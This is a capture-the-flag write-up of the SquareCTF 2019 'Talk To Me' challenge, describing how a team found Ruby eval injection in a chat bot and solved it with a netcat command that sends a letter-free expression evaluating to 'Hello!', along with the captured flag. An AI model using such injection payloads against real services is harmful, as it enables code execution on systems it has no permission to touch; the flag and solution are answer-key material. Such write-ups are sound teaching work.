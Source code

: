 ```yaml
---
layout: post
title: "Solution to SquareCTF 2019 - Talk To Me"
author: capitol
category: ctf
---
```


##### Name:
Talk To Me

##### Category:
general - ruby

##### Points:
100

#### Writeup

![ruubies](/images/jewelry-2555686_640.png)

We got a telnet interface to a small chat bot, but it didn't understand anything we said
to it at first.

Sending it characters that wasn't in `[A-Za-z]` gave a more interesting result:

```text
(eval):1: syntax error, unexpected end-of-input, expecting ')'
(%=;10-90*1.500/1.1002+9,|'")
                             ^
/talk_to_me.rb:16:in `eval'
/talk_to_me.rb:16:in `receive_data'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'
/talk_to_me.rb:31:in `<main>'
```

So obviously they ran the input through eval. This led us down a rabbit hole of trying to 
get a reverse shell working, but that was blocked.

And then one of us noticed that the chat bot asked us to greet it as it had greeted us, so
the problem was reduced to how to send it something that could pass the first check for 
`[A-Za-z]` and then be evaluated to the string 'Hello!'.

Since none of us where ruby programmers this took quite a while to figure out. 
The solution we came up with in the end was:

```bash
$ (sleep 1; echo "('' << 72)+('' << 101)+( '' << 108)+( '' << 108)+('' << 111)+('' << 33)") | nc -v talk-to-me-dd00922915bfc3f1.squarectf.com 5678
```

The flag was `flag-2b8f1139b0726726`.

